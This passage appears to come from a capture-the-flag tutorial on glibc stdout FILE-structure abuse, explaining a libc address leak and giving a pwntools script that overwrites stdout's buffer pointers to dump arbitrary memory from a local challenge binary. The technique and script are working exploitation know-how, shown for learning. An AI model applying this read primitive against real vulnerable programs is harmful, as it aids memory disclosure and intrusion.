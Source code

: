 and by examining the data at this address (`x/10gx 0x7f14099ff800`) we can verify that it's exactly the value that are returned to us by `stdout`..

so basically it returns us value between `0x7f14099ff800` and `0x7f14099ff823` so in total exactly 0x23 bytes,

as we can see in the value returned.

That's how this classic libc address leak techniques works..

------

#### 4 - Extending the technique to a more general read primitive.

So now that we start to see more how this work,

we can extend that simple technique to a more general read primitive, that will permit to read in data at any known addresses.

let's extend our previous exploit, to add it a read primitive macro:

```python
from pwn import *
context.log_level="info"

p = process("./prog")

def write(addr, data):
  p.sendlineafter('choice> ', '1')
  p.sendlineafter('> ', str(addr))
  p.sendlineafter('size> ', str(len(data))+'\x00')
  p.sendafter('data> ', data)

# stdout read primitive
def readmem(stdout_addr, addr, size, returned=0):
  temp = p64(0xfbad1887) + p64(0)*3 + p64(addr) + p64(addr+size)*3 + p64(addr+size+1)
  write(stdout_addr, temp)
  if returned:
    return p.recv(size)

# use given leak for experiments, will need no leak on real challenge
p.recvuntil('leak: ', drop=True)
stdout = int(p.recvuntil('\n',drop=True),16)
print(hexdump(readmem(stdout, stdout-0xcf0, 256, 1)))
p.interactive()
```

This little test program, will dump 256 bytes of data from memory just before stdin (at stdout - 0xcf0)

as you can see here:

![returned2](./pics/returned2.png)
